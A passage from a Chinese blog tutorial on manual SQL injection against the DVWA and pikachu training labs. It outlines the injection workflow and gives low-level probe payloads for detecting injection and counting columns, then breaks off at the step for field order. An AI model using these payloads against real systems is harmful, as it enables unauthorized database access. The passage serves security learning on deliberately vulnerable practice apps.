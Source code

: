 ```yaml
---
layout: post
title: dvwa、pikachu 之SQL注入
subtitle: dvwa、pikachu 之 sql 注入
date: 2022-11-13 15:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - pikachu
  - 靶场实战
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. SQL 注入

**手工注入常规思路：**

```
1.判断是否存在注入，注入是字符型还是数字型
2.猜解 SQL 查询语句中的字段数
3.确定显示的字段顺序
4.获取当前数据库
5.获取数据库中的表
6.获取表中的字段名
7.查询到账户的数据
```

### 1.1. 手工注入

#### 1.1.1. LOW

**1.判断是否存在注入，注入是字符型还是数字型**

```sql
'
1' and '1'='1
1' and '1'='2
1' or '1'=1
```

**2.猜解 SQL 查询语句中的字段数**

```
1′ or 1=1 order by 1 #
1′ or 1=1 order by 2 #
...
1′ or 1=1 order by n #
```

**3.确定显示的字段顺序**
